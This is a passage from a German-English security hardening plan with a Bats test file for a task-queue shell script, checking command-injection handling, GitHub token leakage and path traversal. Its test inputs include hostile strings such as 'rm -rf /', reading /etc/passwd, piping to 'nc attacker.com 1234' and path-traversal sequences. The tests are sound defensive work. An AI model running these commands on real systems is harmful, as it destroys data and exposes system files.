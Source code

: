 ```bash
}
```

### Phase 2: Security Review and Hardening
**Ziel**: Comprehensive security audit and input validation enhancement
**Dateien**: `tests/security/test-security-audit.bats` (new), security enhancements

#### Schritt 1: Input Validation Security Tests
**Neue Datei**: `tests/security/test-security-audit.bats`
```bash
#!/usr/bin/env bats

# Security testing for task queue system

@test "input validation: command injection prevention" {
    setup_security_test_environment
    
    # Test various command injection attempts
    local malicious_inputs=(
        "'; rm -rf /; echo 'pwned"
        "\$(whoami)"
        "; cat /etc/passwd"
        "| nc attacker.com 1234"
        "\`id\`"
        "../../../etc/passwd"
    )
    
    for input in "${malicious_inputs[@]}"; do
        run ./src/hybrid-monitor.sh --add-custom "$input"
        # Should either reject input or safely escape it
        if [[ $status -eq 0 ]]; then
            # If accepted, verify it's safely stored
            verify_input_safely_escaped "$input"
        fi
    done
    
    cleanup_security_test_environment
}

@test "github token handling: no token leakage in logs" {
    setup_security_test_environment
    
    # Perform GitHub operations
    export GITHUB_TOKEN="fake-token-for-test"
    ./src/hybrid-monitor.sh --add-issue 1 2>&1 | tee test_output.log
    
    # Verify token is not in logs
    ! grep -q "fake-token-for-test" test_output.log
    ! grep -q "$GITHUB_TOKEN" logs/*.log
    
    # Verify token is not in any backup files
    ! grep -r "fake-token-for-test" queue/backups/ || true
    
    rm -f test_output.log
    cleanup_security_test_environment
}

@test "file system security: prevent path traversal" {
    setup_security_test_environment
    
    # Test path traversal attempts
    local malicious_paths=(
        "../../../etc/passwd"
```